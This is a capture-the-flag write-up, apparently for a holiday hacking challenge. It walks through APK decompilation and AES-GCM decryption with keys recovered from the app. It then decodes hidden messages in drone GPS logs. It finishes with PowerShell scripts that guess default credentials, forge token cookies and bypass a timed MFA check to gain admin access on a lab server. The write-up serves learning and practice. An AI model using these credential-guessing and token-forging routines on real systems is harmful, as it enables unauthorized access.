

# Act 2
## Mobile Analysis
**Location:** The Front Yard (Eve Snowshoes)

In this challenge, we talk to Eve Snowshoes and find out they made an app to use for Santa's Naughty-Nice List. They made a debug version as well as a release version, but they accidentally left out one child's name from each list. We need to figure out who was left out from each.
### Silver
For silver, we need to figure out the child's name left out of the debug version of the app. For this, we are given an APK file `SantaSwipe.apk.

[SantaSwipe.apk](../extra_files/mobile_analysis/original_files/SantaSwipe.apk)

We are given a couple hints to how to solve this challenge. One of them mentions that we should use apktool or jadx. Both are great tools but jadx is preferred by a lot of people over apktool because of its ability to decode smali (bytecode) files into java files. Java is a lot easier to analyze than smali so we will use jadx.

To decompile the apk with jadx we use the following command.

```
jadx -d jadx_output_directory SantaSwipe.apk
```

The tool might show an error that all the files weren't able to decompile but that is usually not an issue. Let's open the directory and see what we can find.

In the resources directory of the decompiled file, we can see the following file `AndroidManifest.xml`. This is an important file as it shows us the entry point for the application.


We can see that the entrypoint for this app is `com.northpole.santaswipe.MainActivity`. Let's go there and see what we can find. Looking through that file, we come across a function named `getNormalList`.


It's pretty obvious by the name of this function that what it does it get the normal list (perhaps the list of all the kids before they are labeled naughty or nice). If we look at the SQL query that this function makes we can see that it gets all the items from `NormalList` where the item is `NOT LIKE` "%Ellie%". In SQL, the percent sign represents a string of 0 or more characters. So it seems like the `getNormalList` function is trying to leave off someone named Ellie. If we try that name in the flag submission box we see that we are correct!

Answer: `Ellie`
### Gold
For gold, we need to find the missing name in the release version of the app. The release version of the app is in the form of an `aab` file. This is an Android App Bundle file. To use it, we need to convert it to APK form so we can look at the code.

Following [this guide](https://github.com/HackJJ/apk-sherlock/blob/main/aab2apk.md) We can convert the `.aab` file into a directory of `.apk` files using a tool called `bundletool`. This is available through most package managers.

Use bundletool to convert .aab to .apks:
```
bundletool build-apks --bundle=/path/to/your_app.aab --output=/path/to/output.apks --mode=universal
```

Now you should have a file called `output.apks` (or whatever you named the output). This file is actually a zip archive that contains our apk file. Use unzip to extract it.

```
unzip output.apks
```

You should now see a file named `universal.apk`. We will now decompile this with jadx the same way we did for silver.

```
jadx -d jadx_output_directory universal.apk
```

Once this apk has been decompiled, lets open the output folder in a source code browser.

If we go to the main activity folder `sources/com/northpole/santaswipe`, we see that in the `MainActivity.java` file there isn't anything too interesting. If we instead look in the `DatabaseHelper.java` file, we see the following function that looks *quite* interesting.


This function is loading the database, but it is doing so with an encrypted string that gets passed to a decryption function. Assuming that this data is the naughty nice list, we just need to decrypt it to find what we are looking for. Let's take a look at the `decryptData` function to see how we might do this.


It looks as though the data is encrypted using AES/GCM. To decrypt data with AES/GCM, we will need to find the following:

1. Encryption Key
2. Initialization Vector (IV)
3. Authentication Tag

If we look in the `decryptData` file, we can see a reference to `this.iv` and `this.encryptionKey`. At the top of the file we see the constructor function where these values are initialized.


At the bottom, we can see the line `this.iv = decode2;`. If we read through the whole constructor function, we can see that this data originates from the line `String string2 = context.getString(R.string.iv);`. Also in this code block, we see that `this.encryptionKey` is set to a value coming from the line `context.getString(R.string.ek);`. `context.getString` is a common method used for getting string values from a `strings.xml` file in the app's resources. If we can find this file, we can find the IV and the encryptionKey.

After a brief search I found the file at `resources/res/values/strings.xml`. In the file, I found the following values.

```
<string name="iv">Q2hlY2tNYXRlcml4</string>
...
<string name="ek">rmDJ1wJ7ZtKy3lkLs6X9bZ2Jvpt6jL6YWiDsXtgjkXw=</string>
```

Now we have our initialization vector and encryption key.

The last piece we need to try and decrypt this data is the authentication tag. The GCM version of AES provides not only encryption but also integrity and authentication of the message. To provide that, it requires an authentication tag. This authentication tag is appended to the end of a message before being sent. Each authentication tag is 16 bytes long, so to get the authentication tag, we simply need to take it from the last 16 bytes of the encrypted data string that we first saw in the `onCreate` function.

To make this more simple, I made a python script to decrypt our data with the values provided.

```python
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import base64
import os

def aes_gcm_decrypt(key_base64, iv_base64, encrypted_data_with_tag_base64):
    # Decode the base64-encoded inputs
    key = base64.b64decode(key_base64)  # Decode the key from base64
    iv = base64.b64decode(iv_base64)    # Decode the IV from base64
    encrypted_data_with_tag = base64.b64decode(encrypted_data_with_tag_base64)  # Decode the encrypted data from base64

    # Extract the ciphertext and authentication tag from the encrypted data
    ciphertext = encrypted_data_with_tag[:-16]  # All but the last 16 bytes are ciphertext
    auth_tag = encrypted_data_with_tag[-16:]  # The last 16 bytes are the authentication tag

    # Create the AES GCM cipher for decryption
    cipher = Cipher(algorithms.AES(key), modes.GCM(iv, auth_tag), backend=default_backend())
    decryptor = cipher.decryptor()

    # Decrypt the data
    decrypted_data = decryptor.update(ciphertext) + decryptor.finalize()

    return decrypted_data

def main():
    # Base64-encoded key (replace with actual base64-encoded key)
    key_base64 = "rmDJ1wJ7ZtKy3lkLs6X9bZ2Jvpt6jL6YWiDsXtgjkXw="

    # Base64-encoded IV (replace with actual base64-encoded IV)
    iv_base64 = "Q2hlY2tNYXRlcml4"

    # Base64-encoded encrypted data with tag (replace with actual base64-encoded encrypted data)
    encrypted_base64 = "*** ENCRYPTED DATA HERE ***"

    # Decrypt the data
    decrypted_data = aes_gcm_decrypt(key_base64, iv_base64, encrypted_base64)

    print(f"Decrypted Data: {decrypted_data.decode()}")

if __name__ == "__main__":
    main()
```

This function takes the encryption key, IV, encrypted data, extracts the authentication tag from the encrypted data, decrypts the data, and then prints it to the stdout. Simply add your encrypted data to the `encrypted_base64` variable (must be base64 encoded) and run the script.

If we run this script with our original encrypted string, we get the following output.



This is another SQL statement which deletes a specific Item. The issue is that this item seems to also be encrypted. Let's try decrypting it with the same script we just made.

Encrypted string: `KGfb0vd4u/4EWMN0bp035hRjjpMiL4NQurjgHIQHNaRaDnIYbKQ9JusGaa1aAkGEVV8=`


It worked! It seems that the SQL statement removes the following item: 

`Joshua, Birmingham, United Kingdom`

That's our final answer!
## Drone Path
**Location:** The Front Yard (Chimney Scissorsticks)

In talking to Chimney Scissorsticks we hear that Wombley is building a fleet of drones instead of toys. We are tasked with looking through the flight logs of some of these drones to find some hidden data.
### Silver
This challenge focuses on the "Elf Drone Workshop" web portal. It seems like a page used for managing drones in the fleet. There are three pages; Home, FileShare, and Login. Let's look at the FileShare page:


There seems to be one available KML file on the page. In our initial conversation with Chimney Scissorsticks, he mentions that he thinks they hide the admin password to the web UI in the drone flight logs. Let's download the file and take a look at it.

Open [google earth](https://earth.google.com) and open the downloaded KML file with `File->Open local KML file`. Once open, it will focus onto the south pole with the flight path spelling out the word `GUMDROP1`.


This must be the admin password that we were told about. If we take a look at the name of this KML file `fritjolf-Path.kml`, it would make sense that the username for this password would be `fritjolf`. Let's try it out on the login page. It worked!

Username: `fritjolf`
Password: `GUMDROP1`

A new page called `Profile` appeared now in the web UI. It has an interesting note on it.


Let's download that CSV file and see if we can figure out the drone name he is talking about. You can download it from the following url as long as you are logged into the web UI as fritjolf.

https://hhc24-dronepath.holidayhackchallenge.com/files/secret/Preparations-drone-name.csv

Looking in the CSV file, its clear that its full of GPS data. I made a small python script to convert this GPS data from CSV form to KML form so we can visualize it.

```python
import pandas as pd
import simplekml

# Load the CSV file
csv_file = "*** INPUT FILENAME HERE ***"
df = pd.read_csv(csv_file)

# Create a KML object
kml = simplekml.Kml()

# Loop through the DataFrame and add points to the KML without name
for _, row in df.iterrows():
    kml.newpoint(coords=[(row["OSD.longitude"], row["OSD.latitude"])])

# Save the KML file
kml.save("*** OUTPUT FILENAME HERE ***")
print("KML file created")
```

Once converted to KML, I loaded the file into Google Earth the same way as I did previously. Clicking on each point one at a time, Google Earth will take you to that point and zoom in on it pretty close. From the first point, it was pretty clear what was going on. Take a look.


This is clearly the letter "E". Looking at all the following points in the original order, we are able to spell out the following "drone name"

`ELF-HAWK`

I won't show every picture here, but if you want to take a look at them I will link them below. "A" is my personal favourite.

[E](../images/dronepath/drone_name/point_1.png)
[L](../images/dronepath/drone_name/point_2.png)
[F](../images/dronepath/drone_name/point_3.png)
[-](../images/dronepath/drone_name/point_4.png)
[H](../images/dronepath/drone_name/point_5.png)
[A](../images/dronepath/drone_name/point_6.png)
[W](../images/dronepath/drone_name/point_7.png)
[K](../images/dronepath/drone_name/point_8.png)

Now that we have found the drone name. Let's try and use it on the "Workshop" page in the web UI console. 


Cool, it looks like we have another lead on a new CSV file. This one doesn't show the exact file path but I assume it will be the same as the last one.

https://hhc24-dronepath.holidayhackchallenge.com/files/secret/ELF-HAWK-dump.csv

Got it! Once we open it, we can see that it is the same format as the previous one. One slight difference is that there seems to be an extra row of data that was misplaced after the column headers on the right side. Assuming this row is supposed to be the first row of data, we can insert it just above the current first row of data to correct this. See the new file below.

[ELF-HAWK-dump-CORRECTED.csv](../extra_files/dronepath/ELF-HAWK-dump-CORRECTED.csv)

Let's put this file through the CSV to KML script I created above. Then open it into Google Earth.


It looks like this is supposed to spell something, but I couldn't make it out. I spent a lot of time trying to figure this out and finally decided to try plotting it with something else in case Google Earth was the problem.

I decided to try plotting with a python library called `folium`. It creates an HTML file that you can open in your browser. I made the following python script to do so.

```python
import pandas as pd
import folium

# Load the CSV file into a DataFrame
csv_file = "*** INPUT CSV FILE HERE ***"
df = pd.read_csv(csv_file)

# Create a base map (zoomed to a specific location, you can adjust the center as needed)
# Initial location: Center of the USA
m = folium.Map(location=[37.0902, -95.7129], zoom_start=4)

# Loop through the DataFrame and add points to the map
for _, row in df.iterrows():
    # Add a marker with popup
    folium.Marker(
        location=[row["OSD.latitude"], row["OSD.longitude"]],
        icon=folium.DivIcon(html=f"""<div style="color:black">o</div>""")
    ).add_to(m)

# Save the map to an HTML file
m.save("plotted_output.html")
print("Map saved!")
```

Using this script, I got the following output plot.


Our first flag!

`DroneDataAnalystExpertMedal`

We can input this on the "Admin Console" page to get our achievement for silver.
### Gold
After searching around to find our next step, I decided to try and see if the "Workshop" page on the web UI was vulnerable to SQL injection. With an incredibly simple SQL injection query, I got the following result.


Now we know there are some other drones. Maybe we can find something interesting in their database notes. Let's try the first one `Pigeon-Lookalike-v4`.


*Note: The other drones did not have anything interesting in their database notes.*

An interesting hint is shown in the notes for `Pigeon-Lookalike-v4`. "Only TRUE carvers would find secrets and that FALSE ones would never find it". The word "carvers" seems to reference data carving which just means manipulation/reassembly of data from raw data files (which is what we are doing). The mention of TRUE/FALSE seems like they want our attention to be on the TRUE/FALSE values in the data. The obvious guess for how this would work would be binary encoded with TRUE/FALSE for 1 and 0. Let's take a crack at this theory.

What I will do is remove every column in the CSV file that doesn't have TRUE/FALSE values and then convert the TRUE/FALSE values to binary and output it to a file. I made the following python script to do just that.

```python
import pandas as pd

# Input file path
input_csv = "*** CORRECTED ELF-HAWK-dump.csv FILENAME HERE ***"  # Replace with your input CSV file

# List of columns to process as binary
binary_columns = ["OSD.isGPSUsed", "OSD.isSwaveWork", "OSD.waveError", "OSD.isOnGround", "OSD.isMotorOn", "OSD.isMotorBlocked", "OSD.isImuPreheated", "OSD.isAcceletorOverRange", "OSD.isBarometerDeadInAir", "OSD.isCompassError", "OSD.isGoHomeHeightModified", "OSD.canIOCWork", "OSD.isNotEnoughForce", "OSD.isOutOfLimit", "OSD.isPropellerCatapult", "OSD.isVibrating", "OSD.isVisionUsed", "GIMBAL.isPitchAtLimit", "GIMBAL.isRollAtLimit", "GIMBAL.isYawAtLimit", "GIMBAL.isStuck", "CAMERA.isPhoto", "CAMERA.isVideo", "CAMERA.sdCardIsInserted", "RC.goHomeDepressed", "RC.recordDepressed", "RC.shutterDepressed", "RC.playbackDepressed", "RC.wheelDepressed", "RC.custom1Depressed", "RC.custom2Depressed", "RC.custom3Depressed", "RC.custom4Depressed", "BATTERY.isCellVoltageEstimated", "BATTERY.isCellVoltageDeviationHigh", "BATTERY.isVoltageLow", "BATTERY.lowWarningGoHome", "BATTERY.seriousLowWarningLanding", "MC.isObstacleAvoidanceEnabled", "MC.isCollisionAvoidanceEnabled", "MC.isRthObstacleAvoidanceEnabled", "MC.isBraking", "MC.isAvoidingObstacle", "MC.isAvoidingActiveObstacle", "MC.isAscentLimitedByObstacle", "MC.isLandingConfirmationNeeded", "MC.atLowAltitudeLimit", "MC.atDistanceLimit", "MC.atAirportAltitudeLimit", "MC.atAirportBoundary", "HOME.isHomeRecord", "HOME.isDynamicHomePointEnabled", "HOME.isReachedLimitDistance", "HOME.isReachedLimitHeight", "HOME.isCompassCalibrating", "HOME.isMultipleFlightModeEnabled", "HOME.isBeginnerMode", "HOME.isIOCEnabled"]  # Replace with your column names

try:
    # Load the CSV file
    df = pd.read_csv(input_csv, dtype=str)

    # Check if all binary columns exist in the file
    missing_columns = [col for col in binary_columns if col not in df.columns]
    if missing_columns:
        raise ValueError(f"The following columns are missing from the input file: {missing_columns}")

    # Extract the specified columns
    #binary_data = df[binary_columns].iloc[1:]  # Exclude the header row
    binary_data = df[binary_columns]  # Exclude the header row

    # Process each row as binary
    results = []
    for _, row in binary_data.iterrows():
        binary_string = ''.join('1' if val.upper() == 'TRUE' else '0' for val in row.astype(str))
        results.append((binary_string))
        print(binary_string)

except FileNotFoundError:
    print(f"Error: The file {input_csv} was not found.")
except ValueError as ve:
    print(f"Error: {ve}")
except Exception as e:
    print(f"An unexpected error occurred: {e}")
```

The most annoying part of making this script was writing down all the columns that have TRUE/FALSE values...

Now run the script like this:

```
python3 interpret_binary.py > outfile.txt
```

After the script is finished running, open the text file, copy the binary data and paste it into CyberChef with the recipe set to "From Binary".

[Binary Output File](dronepath_true_false_binary.txt)


Now if we fullscreen the output pane, we get the following result.


We found our Gold flag!

`EXPERTTURKEYCARVERMEDAL`

We can input this on the "Admin Console" web UI page to claim our gold achievement!

Done!
## PowerShell
**Location:** The Front Yard (Piney Sappington)

In talking to Piney Sappington, we learn that Team Wombley is developing snow weapons in preparation for conflict, but they have been locked out by their own defenses. He is asking us for help in regaining access to the weapon operations terminal. To do this, we need to complete a series of challenges using a PowerShell terminal.
### Silver
#### Question 1
*There is a file in the current directory called 'welcome.txt'. Read the contents of this file*

We can use the `Get-Content` command to read a file.

```
Get-Content -Path welcome.txt
```

Output:
```
System Overview
The Elf Weaponry Multi-Factor Authentication (MFA) system safeguards access to a classified armory containing elf weapons. This high-security system is equipped with advanced defense mechanisms, including canaries, retinal scanner and keystroke analyzing, to prevent unauthorized access. In the event of suspicious activity, the system automatically initiates a lockdown, restricting all access until manual override by authorized personnel.

Lockdown Protocols
When the system enters lockdown mode, all access to the armory is frozen. This includes both entry to and interaction with the weaponry storage. The defense mechanisms become active, deploying logical barriers to prohibit unauthorized access. During this state, users cannot disable the system without the intervention of an authorized administrator. The system logs all access attempts and alerts central command when lockdown is triggered.

Access and System Restoration
To restore access to the system, users must follow strict procedures. First, authorized personnel must identify the scrambled endpoint. Next, they must deactivate the defense mechanisms by entering the override code and presenting the required token. After verification, the system will resume standard operation, and access to weaponry is reactivated.
```
#### Question 2
*How many words are there in the file?*

We can use pipe to send the output of the previous command to the `Measure-Object` command.

```
Get-Content welcome.txt | Measure-Object -Word
```

Output:
```
180
```
#### Question 3
*There is a server listening for incoming connections on this machine, that must be the weapons terminal. What port is it listening on?*

We can use `netstat` for this.

```
netstat -a
```

Output:
```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:1225          0.0.0.0:*               LISTEN     
tcp6       0      0 172.17.0.3:47592        52.179.73.38:443        ESTABLISHED
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   Path
unix  2      [ ACC ]     STREAM     LISTENING     528004784 /tmp/tmux-1050/default
unix  2      [ ACC ]     STREAM     LISTENING     528020408 /tmp/dotnet-diagnostic-239-63898942-socket
unix  2      [ ACC ]     STREAM     LISTENING     528022204 /tmp/CoreFxPipe_PSHost.DB478935.239.None.pwsh
unix  3      [ ]         STREAM     CONNECTED     528007084 
unix  3      [ ]         STREAM     CONNECTED     528008226 /tmp/tmux-1050/default
```
#### Question 4
*You should enumerate that webserver. Communicate with the server using HTTP, what status code do you get?*

For sending web requests with PowerShell, we can use `Invoke-WebRequest`.

```
Invoke-WebRequest -URI 127.0.0.1:1225
```

Output:
```
Invoke-WebRequest: Response status code does not indicate success: 401 (UNAUTHORIZED).
```
#### Question 5
*It looks like defensive measures are in place, it is protected by basic authentication.* 
*Try authenticating with a standard admin username and password.*

We need to create a `Credential` object that we can pass with our web requests. When they mention "a standard admin username and password", the first thing that comes to mind is `admin:admin`. That turns out to be correct!

Create a credential object (enter admin admin):
```
$Credential = Get-Credential
```

Send request with credential object.
```
Invoke-WebRequest -URI http://127.0.0.1:1225 -Credential $Credential -AllowUnencryptedAuthentication
```
#### Question 6
*There are too many endpoints here.* 
*Use a loop to download the contents of each page. What page has 138 words?* 
*When you find it, communicate with the URL and print the contents to the terminal.*

PowerShell is a relatively full fledged programming language, so I made a script to do all of the above.

```
# Step 1: Get the main page and extract links
$response = Invoke-WebRequest -URI http://127.0.0.1:1225 -Credential $Credential -AllowUnencryptedAuthentication
$links = $response.Links | Select-Object -ExpandProperty href

# Define the target word count
$targetWordCount = 138

# Initialize a variable to store the matching link
$matchingLink = $null

# Step 2: Loop through the links and check word count
foreach ($link in $links) {
    try {
        # Fetch the content of the link
        $linkResponse = Invoke-WebRequest -Uri $link -ErrorAction Stop

        # Step 3: Count the number of words on the page
        $wordCount = ($linkResponse.Content -split '\s+').Count

        Write-Host "Link: $link | Word Count: $wordCount"

        # Step 4: Check if the word count matches the target
        if ($wordCount -eq $targetWordCount) {
            $matchingLink = $link
            break
        }
    } catch {
        Write-Host "Failed to access: $link" -ForegroundColor Red
        Write-Host "Error: $_"
    }
}

# Display the result
if ($matchingLink) {
    Write-Host "The link with $targetWordCount words is: $matchingLink" -ForegroundColor Green
} else {
    Write-Host "No link found with $targetWordCount words." -ForegroundColor Yellow
}

```

Output:
`The link with 138 words is: http://localhost:1225/endpoints/13`

Now, lets send a request to get this page:
```
$wordsPage = Invoke-WebRequest -URI http://127.0.0.1:1225/endpoints/13 -Credential $Credential -AllowUnencryptedAuthentication
```

Print the content of the page:
```
$wordsPage.Content
```

Output:
```
<html><head><title>MFA token scrambler</title></head><body><p>Yuletide cheer fills the air,<br>    A season of love, of care.<br>    The world is bright, full of light,<br>    As we celebrate this special night.<br>    The tree is trimmed, the stockings hung,<br>    Carols are sung, bells are rung.<br>    Families gather, friends unite,<br>    In the glow of the fire’s light.<br>    The air is filled with joy and peace,<br>    As worries and cares find release.<br>    Yuletide cheer, a gift so dear,<br>    Brings warmth and love to all near.<br>    May we carry it in our hearts,<br>    As the season ends, as it starts.<br>    Yuletide cheer, a time to share,<br>    The love, the joy, the care.<br>    May it guide us through the year,<br>    In every laugh, in every tear.<br>    Yuletide cheer, a beacon bright,<br>    Guides us through the winter night </p><p> Note to self, remember to remove temp csvfile at http://127.0.0.1:1225/token_overview.csv</p></body></html>
```
#### Question 7
*There seems to be a csv file in the comments of that page. That could be valuable, read the contents of that csv-file!*

The referenced CSV file:
`http://127.0.0.1:1225/token_overview.csv`

Send request to get the CSV file:
```
$csvContent = Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Credential $Credential -AllowUnencryptedAuthentication
```

Print the CSV content:
```
$csvContent.Content
```

Output:
```
...
38bdd7748a70529e9beb04b95c09195d,REDACTED
8d4366f08c013f5c0c587b8508b48b15,REDACTED
67566692ca644ddf9c1344415972fba8,REDACTED
8fbf4152f89b7e309e89b9f7080c7230,REDACTED
936f4db24a290032c954073b3913f444,REDACTED
c44d8d6b03dcd4b6bf7cb53db4afdca6,REDACTED
cb722d0b55805cd6feffc22a9f68177d,REDACTED
724d494386f8ef9141da991926b14f9b,REDACTED
67c7aef0d5d3e97ad2488babd2f4c749,REDACTED
5f8dd236f862f4507835b0e418907ffc,4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
# [*] SYSTEMLOG
# [*] Defence mechanisms activated, REDACTING endpoints, starting with sensitive endpoints
# [-] ERROR, memory corruption, not all endpoints have been REDACTED
# [*] Verification endpoint still active
# [*] http://127.0.0.1:1225/tokens/<sha256sum>
# [*] Contact system administrator to unlock panic mode
# [*] Site functionality at minimum to keep weapons active
```
#### Question 8
*Luckily the defense mechanisms were faulty!* 
*There seems to be one api-endpoint that still isn't redacted! Communicate with that endpoint!*

From the output above, we see that the endpoint `http://127.0.0.1:1225/tokens/<sha256sum>` isn't redacted like the others. Lets send a request to it.

```
Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/123" -Credential $Credential -AllowUnencryptedAuthentication
```

Output:
```
StatusCode        : 200
StatusDescription : OK
Content           : <h1>[!] ERROR: Missing Cookie 'token'</h1>
RawContent        : HTTP/1.1 200 OK
                    Server: Werkzeug/3.0.6
                    Server: Python/3.10.12
                    Date: Fri, 06 Dec 2024 03:28:49 GMT
                    Connection: close
                    Content-Type: text/html; charset=utf-8
                    Content-Length: 42
                    
                    <h1>[!] ERROR: Missing Co…
Headers           : {[Server, System.String[]], [Date, System.String[]], [Connection, System.S
                    tring[]], [Content-Type, System.String[]]…}
Images            : {}
InputFields       : {}
Links             : {}
RawContentLength  : 42
RelationLink      : {}
```
#### Question 9
*It looks like it requires a cookie token, set the cookie and try again*

Based on the URL we got from above (`http://127.0.0.1:1225/tokens/<sha256sum>`), it would appear that the cookie `token` it is asking for should be the non hashed version, and the `<sha256sum>` value in the URL path should obviously be the hash of that token. Let's use the one non-redacted token/hash pair for this request.

***NOTE: If you try and sha256sum the token yourself, the output will have lower case characters which will give the correct output from the web response but WILL NOT trigger the terminal to mark your command as correct. The sha256sum in the URL path must be all capital characters. Ask me how much time I spent before figuring this out...***

token: `5f8dd236f862f4507835b0e418907ffc`
sha256sum: `4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C`

Now let's create a web session, add our cookie to it, and send the request with our websession attached.

```
# Create a WebSession object
$webSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession

# Create and add a cookie to the WebSession
$cookie = New-Object System.Net.Cookie('token', '5f8dd236f862f4507835b0e418907ffc', '/', '127.0.0.1')
$webSession.Cookies.Add($cookie)

# Send the request with the cookie
$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -WebSession $webSession -Credential $Credential -AllowUnencryptedAuthentication

# Display the response content
$response.Content
```

Output:
```
<h1>Cookie 'mfa_code', use it at <a href='1733604255.4202056'>/mfa_validate/4216b4faf4391ee4d3e0ec53a372b2f24876ed5d124fe08e227f84d687a7e06c</a></h1>
```

#### Question 10
*Sweet we got a MFA token! We might be able to get access to the system.*
*Validate that token at the endpoint!*

If we just manually send a request to the `mfa_validate` endpoint, we get this response:

`<h1>[!] System currently in lock down</h1><br><h1>[!] Failure, token has expired. [*] Default timeout set to 2s for security reasons</h1>`

So we need to do this programatically immediately after receiving the `mfa_validate` URL to beat the 2s timeout.

```
# Create a WebSession object
$webSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession

# Create and add a cookie to the WebSession
$cookie = New-Object System.Net.Cookie('token', '5f8dd236f862f4507835b0e418907ffc', '/', '127.0.0.1')
$webSession.Cookies.Add($cookie)

# Send the request with the cookie
$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -WebSession $webSession -Credential $Credential -AllowUnencryptedAuthentication

# Extract MFA token from response
$mfa_token = $response.Links.href

# Create new mfa cookie
$mfa_cookie = New-Object System.Net.Cookie('mfa_token', $mfa_token, '/', '127.0.0.1')
$webSession.Cookies.Add($mfa_cookie)

# Send MFA request
$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -WebSession $webSession -Credential $Credential -AllowUnencryptedAuthentication

$response.Content
```

```
<h1>[+] Success</h1><br><p>Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg==</p>
```
#### Q11
*That looks like base64! Decode it so we can get the final secret!*

Decoding base64 with PowerShell is a little more complex than using `base64 -d` in linux. After some consultation with ChatGPT I came up with the following command to decode it.

```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg=="))
```

Output:
```
Correct Token supplied, you are granted access to the snow cannon terminal. Here is your personal password for access: SnowLeopard2ReadyForAction
```

```
Hurray! You have thwarted their defenses!
Alabaster can now access their weaponry and put a stop to it.
Once HHC grants your achievement, you can close this terminal.
```

Done!
### Gold
For the gold version of this challenge, we are given this hint:

*I overheard some of the other elves talking. Even though the endpoints have been redacted, they are still operational. This means that you can probably elevate your access by communicating with them. I suggest working out the hashing scheme to reproduce the redacted endpoints. Luckily one of them is still active and can be tested against. Try hashing the token with SHA256 and see if you can reliably reproduce the endpoint. This might help, pipe the tokens to `Get-FileHash -Algorithm SHA256`.*

So basically, it seems as though even all those endpoints are redacted, they are still up. Since all of their `token` values are still visible, we can reproduce the endpoint path by hashing the token portion with sha256. Let's give it a shot with the one we already know first to test our theory.

token: `5f8dd236f862f4507835b0e418907ffc`
sha256sum: `4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C`

Try hashing the token

Linux:
```
echo 5f8dd236f862f4507835b0e418907ffc | sha256sum
```
Mac:
```
echo 5f8dd236f862f4507835b0e418907ffc | shasum -a 256
```

Output:
`4216b4faf4391ee4d3e0ec53a372b2f24876ed5d124fe08e227f84d687a7e06c`

Ok, so we have verified that this works as expected. One thing to note here though, is that piping commands sends data to stdin of the next command. What this means is that the `token` value we are hashing actually includes a newline character (`\n`) on the end. We will have to make sure incorporate this into our script.

The general steps that we need to follow for this script is this:

1. Get the CSV data.
2. Filter out everything except the redacted endpoints.
3. Loop through each redacted endpoint (each one is a line in the file) and do the following:
	1. Separate the `token/md5` value from the full string.
	2. Add the newline character to the `token` value.
	3. Hash the `token` value using sha256.
	4. Convert all characters to uppercase.
	5. Create a cookie named `token` and add the token value to it.
	6. Build the request url with the sha256 hash we just created.
	7. Send the request to the url.
	8. Filter responses for ones that contain the string "href" as this will mean we were returned an MFA token url.
	9. Create the `mfa_cookie` with the supplied value in the previous response.
	10. Send the request to the mfa_validate endpoint.
	11. Print response.

```
# Get all the lines of REDACTED endpoints
$csvContent = Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Credential $Credential -AllowUnencryptedAuthentication
$lines = $csvContent.Content -split "`n" | Where-Object { $_ -match ',REDACTED' }

# Create a WebSession object
$webSession = New-Object Microsoft.PowerShell.Commands.WebRequestSession

foreach ($line in $lines) {
	$md5Hash = $line -split ',' | Select-Object -First 1
	$bytes = [System.Text.Encoding]::UTF8.GetBytes($md5Hash + "`n") # Create a SHA256 hasher and compute the hash
    $sha256 = [System.Security.Cryptography.SHA256]::Create()
    $hashBytes = $sha256.ComputeHash($bytes) # Convert the hash bytes to a hexadecimal string
    $hashString = [System.BitConverter]::ToString($hashBytes).Replace("-", "").ToUpper()

	# Create and add a cookie to the WebSession
	$cookie = New-Object System.Net.Cookie('token', $md5Hash, '/', '127.0.0.1')
	$webSession.Cookies.Add($cookie)
	
	$response = Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/$hashString" -WebSession $webSession -Credential $Credential -AllowUnencryptedAuthentication
	
	if ($response.Content.Contains("href")) {
		# Extract MFA token from response
		$mfa_token = $response.Links.href
		
		# Create new mfa cookie
		$mfa_cookie = New-Object System.Net.Cookie('mfa_token', $mfa_token, '/', '127.0.0.1')
		$webSession.Cookies.Add($mfa_cookie)

		# Send MFA request
		$response2 = Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/$hashString" -WebSession $webSession -Credential $Credential -AllowUnencryptedAuthentication
		$response2.Content
	}
}
```

After running this script, we get the following output:
```
...
<h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
<h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
<h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
<h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
<h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
<h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
<h1>[-] ERROR: Access Denied</h1><br> [!] Logging access attempts
...
```

Looks like one of the endpoints worked and we took full control of the snow cannons!

Done!
## Snowball Showdown

- 2 people
- tweak client side values
- giant snowball machine
- subtle way to win
### Silver
